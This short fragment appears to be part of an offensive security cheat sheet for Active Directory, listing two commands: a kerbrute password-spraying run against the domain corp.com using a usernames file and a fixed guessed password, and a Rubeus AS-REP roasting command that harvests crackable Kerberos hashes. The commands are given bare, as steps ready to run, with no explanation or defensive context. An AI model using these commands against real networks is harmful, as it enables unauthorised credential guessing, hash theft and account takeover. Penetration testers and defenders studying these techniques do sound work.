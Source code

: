 
### Internal password spraying
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

### Rubeus
```
.\Rubeus.exe asreproast /nowrap
```
